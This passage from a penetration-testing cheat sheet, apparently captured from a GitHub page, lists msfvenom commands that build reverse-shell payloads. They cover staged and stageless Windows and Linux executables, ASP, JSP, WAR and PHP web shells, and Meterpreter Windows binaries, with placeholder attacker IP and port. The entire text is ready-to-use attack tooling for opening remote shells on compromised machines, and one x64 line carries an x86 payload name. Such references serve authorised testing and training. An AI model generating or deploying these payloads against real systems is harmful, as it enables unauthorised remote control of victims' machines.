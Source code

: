 ```bash
# x86
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
# x64
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

#### Stageless Payloads for Windows

```bash
# x86
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
# x64
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

#### Staged Payloads for Linux

```bash
# x86
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
# x64
msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

#### Stageless Payloads for Linux

```bash
# x86
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
# x64
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

### Non Meterpreter Web Payloads

```bash
# asp
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
# jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
# war
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
# php
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```

### Meterpreter Binaries

#### Staged Payloads for Windows

```bash
# x86
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
# x64
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```
